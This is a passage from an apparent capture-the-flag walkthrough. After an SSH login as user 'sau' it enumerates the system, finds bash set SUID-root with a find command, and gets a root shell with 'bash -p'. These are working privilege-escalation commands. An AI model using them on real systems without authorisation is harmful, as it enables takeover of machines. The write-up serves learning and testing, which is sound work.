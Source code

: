 Trying to login via SSH with the `sau` user, we get a shell. 

## Privilege Escalation

#### Local Enumeration (sau)

Enumerating system's information:

---

- id: `uid=1001(sau) gid=1001(sau) groups=1001(sau)`
- system: `Ubuntu 20.04.6 LTS`
- users: `sau`, `root`.
- kernel: `Linux pc 5.4.0-148-generic #165-Ubuntu x86_64 GNU/Linux`
- sudo enabled: `yes, but not for sau.`

---

One of the most common privilege escalation techniques is through [SUID](https://medium.com/go-cyber/linux-privilege-escalation-with-suid-files-6119d73bc620). Let's test it out and see how it works:

#### Checking for SUID binaries

```bash
$ find / -user root -perm /4000 2>/dev/null 
# [...]
/usr/bin/su
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/fusermount
/usr/bin/newgrp
/usr/bin/bash
/usr/bin/mount
/usr/bin/chsh
# [...]
```

The `bash` binary is set with the SUID bit. In simple words, this means that when executing bash, it runs with the owner's privileges, which in this case is root. To exploit this configuration, we can spawn a new shell [while maintaining the root privileges](https://gtfobins.github.io/gtfobins/bash/#suid).

```bash
$ bash -p
# whoami
root
```

Thank you for reading!
